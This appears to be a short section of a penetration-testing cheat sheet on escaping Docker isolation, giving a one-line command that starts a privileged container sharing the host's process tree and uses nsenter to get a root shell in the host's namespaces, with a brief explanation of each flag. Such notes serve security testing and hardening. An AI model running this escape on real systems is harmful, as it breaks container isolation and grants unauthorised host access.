 ## Privileged Containers

Privileged containers have access to all syscalls

If able to start containers, just leave the isolation:

```bash
docker run -it \
    --privileged \
    --pid=host \
    alpine \
	nsenter -t 1 -m -u -n -i sh
```

Parameters of `nsenter`:

- Work with namespaces (nsenter)
- Uses process tree of host (--pid=host)
- Get namespace from PID 1 (-t 1)
- Enter namespaces required for shell (-m -u -n -i)